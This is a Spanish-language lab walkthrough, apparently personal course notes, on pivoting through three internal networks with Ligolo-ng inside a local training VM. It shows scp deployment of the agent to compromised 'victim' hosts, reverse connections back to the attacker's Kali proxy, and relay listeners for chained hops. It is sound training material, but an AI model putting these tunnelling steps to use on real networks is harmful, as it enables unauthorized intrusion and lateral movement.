




# Pivoting con Ligolo-ng

  

## ¿Qué es Ligolo-ng?

  

**Ligolo-ng** es una herramienta moderna de pivoting que mejora significativamente la experiencia respecto a proxychains y túneles SOCKS. En lugar de requerir que cada herramienta conozca el proxy, Ligolo-ng crea una **interfaz de red virtual (TUN)** en la máquina del atacante y añade rutas de red reales hacia los segmentos internos. El resultado es que cualquier herramienta funciona directamente sin configuración adicional de proxy, como si las redes internas fuesen directamente accesibles.

  

Descarga: [https://github.com/Nicocha30/ligolo-ng](https://github.com/Nicocha30/ligolo-ng)

  

### Componentes

  
    
* **proxy:** se ejecuta en Kali (máquina del atacante). Actúa como servidor central que gestiona las sesiones de los agentes y enruta el tráfico.
    
* **agent:** se ejecuta en cada máquina comprometida. Se conecta al proxy de Kali y establece el túnel.
  

  

### Flujo básico de configuración

  

En Kali, por cada red que queramos alcanzar:

  

```bash
# Crear interfaz TUN
$ sudo ip tuntap add user $USER mode tun ligolo

# Levantar la interfaz
$ sudo ip link set ligolo up

# Añadir ruta hacia la red interna
$ sudo ip route add 10.10.10.0/24 dev ligolo

# Iniciar el servidor proxy
$ sudo ./proxy -selfcert
```

  

En la máquina comprometida:

  

```bash
$ ./agent -connect <IP_KALI>:11601 -ignore-cert
```

  

Una vez el agente se conecta, en la consola de ligolo seleccionamos la sesión y arrancamos el túnel:

  

```bash
ligolo-ng » session
[Agent] » start
```

  

## Laboratorio

  

Importamos la OVA **pivoting.ova**, configuramos la red como "Hacking" y levantamos el laboratorio (`tecnico / SegInf`):

  

```bash
$ sudo /etc/init.d/init_vm start
```

  



  

Descargamos los binarios `proxy` y `agent` desde la página de GitHub de Ligolo-ng y los descomprimimos en Kali.

  

## Primer túnel: Kali → Debian → red 10.10.10.0/24

  

### Preparar la interfaz TUN en Kali

  

```bash
# Crear y levantar la interfaz ligolo
$ sudo ip tuntap add user $USER mode tun ligolo
$ sudo ip link set ligolo up

# Añadir la ruta hacia la red interna de Debian
$ sudo ip route add 10.10.10.0/24 dev ligolo

# Iniciar el servidor proxy
$ chmod +x proxy
$ sudo ./proxy -selfcert
```

  

Al iniciar, ligolo muestra el puerto en escucha:

  



  

### Desplegar el agente en Debian

  

```bash
# Subir el agente
$ scp agent tecnico@10.0.0.24:/home/tecnico

# En Debian, dar permisos y conectar
$ chmod +x agent
$ ./agent -connect 10.0.0.15:11601 -ignore-cert
```

  

En la consola de ligolo veremos:

  

```bash
ligolo-ng » INFO[0201] Agent joined. name=tecnico@debian remote="10.0.0.24:37082"
```

  

### Iniciar el túnel

  

```bash
ligolo-ng » session
? Specify a session : 1 - #1 - tecnico@debian - 10.0.0.24:37082
[Agent : tecnico@debian] » start
```

  

Ya podemos acceder directamente a la red `10.10.10.0/24` desde Kali sin proxychains:

  

```bash
# Ping directo a la red interna
$ ping 10.10.10.1

# Escaneo de hosts
$ ./netscan.sh

# Acceso web directo
# http://10.10.10.2/
```

  

## Segundo túnel: red 20.20.20.0/24

  

Subimos el agente a la Víctima 1 con las credenciales conocidas:

  

```bash
$ scp agent manchi@10.10.10.2:/home/manchi
```

  

### Nueva interfaz TUN en Kali

  

```bash
$ sudo ip tuntap add user $USER mode tun ligolo1
$ sudo ip link set ligolo1 up
$ sudo ip route add 20.20.20.0/24 dev ligolo1
```

  

### Conectar el agente desde la Víctima 1

  

```bash
# En la Víctima 1
$ chmod +x agent
$ ./agent -connect 10.0.0.15:11601 -ignore-cert
```

  

### Seleccionar la sesión e iniciar el túnel en ligolo1

  

```bash
ligolo-ng » session
? Specify a session : 2 - #2 - manchi@9f6a39a2da5f - 10.0.0.24:46634
[Agent : manchi@9f6a39a2da5f] » start --tun ligolo1
```

  

Descubrimos los hosts en la nueva red:

  

```bash
$ ./netscan.sh
```

  



  

## Tercer túnel: red 30.30.30.0/24

  

La Víctima 2 (`20.20.20.3`) no tiene acceso directo a Kali, así que necesitamos un **port forwarding** en el agente de la Víctima 1 para que retransmita las conexiones de ligolo.

  

### Configurar port forwarding en el agente de Víctima 1

  

```bash
[Agent : manchi@9f6a39a2da5f] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

# Verificar el listener
[Agent : manchi@9f6a39a2da5f] » listener_list
```

  

### Nueva interfaz TUN en Kali

  

```bash
$ sudo ip tuntap add user $USER mode tun ligolo2
$ sudo ip link set ligolo2 up
$ sudo ip route add 30.30.30.0/24 dev ligolo2
```

  

### Subir y conectar el agente desde la Víctima 2

  

```bash
# Subir el agente
$ scp agent mario@20.20.20.3:/home/mario

# En la Víctima 2: conectar a través del listener de la Víctima 1
$ chmod +x agent
$ ./agent -connect 20.20.20.2:11601 -ignore-cert
```

  

### Iniciar el tercer túnel

  

```bash
ligolo-ng » session
? Specify a session : 3 - #3 - mario@ebad0a6a0833 - 127.0.0.1:38304
[Agent : mario@ebad0a6a0833] » start --tun ligolo2
```

  

Accedemos finalmente a la última máquina de la red `30.30.30.0/24`:

  



  
    

Con Ligolo-ng hemos creado tres interfaces TUN y tres rutas de red en Kali, lo que nos permite acceder directamente a `10.10.10.x`, `20.20.20.x` y `30.30.30.x` sin proxychains ni configuración de proxy en ninguna herramienta. Esta es la ventaja clave de Ligolo-ng frente a las técnicas anteriores.

  

  

## 📚 Navegación

  

    [← Anterior: Chisel + Socat]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/10d - Pivoting - Práctica 4 - Encadenamiento Chisel y Socat (4 Saltos)|10d - Pivoting 4 - Chisel + Socat]])
    [↑ Volver al Índice]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/01 - Escaneo y Enumeración de Redes con Nmap|Índice de Herramientas de Auditoría]])
